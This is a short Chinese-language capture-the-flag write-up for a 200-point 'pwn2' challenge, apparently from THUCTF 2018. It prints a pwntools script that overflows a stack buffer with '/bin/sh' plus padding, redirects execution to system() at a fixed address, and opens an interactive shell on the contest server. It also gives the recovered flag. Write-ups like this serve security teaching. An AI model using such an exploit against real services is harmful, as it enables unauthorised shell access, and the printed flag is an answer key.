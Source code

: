 pwn2 200 points
================

题意
-------------

Let's make it more challengable!

nc host port

Attachment: stackoverflow_withnoleak


解题步骤
-------------

同 [pwn1](pwn1.md) 。唯一不同就是 `system()` 的地址。修改一下即可。

脚本（见 [pwn2.py](pwn2.py) ）如下：

```
from pwn import *
r = remote('pwn.thuctf2018.game.redbud.info', 20002)
r.send('/bin/sh\0'+'A'*(8192-8))
r.send('A'*8)
r.send(p32(0x00400560))
r.send('\n')
r.interactive()
```

得到 `flag`:

```
THUCTF{EnjoY_your_GAme_and_pwn_FOR_life_1on9!}
```
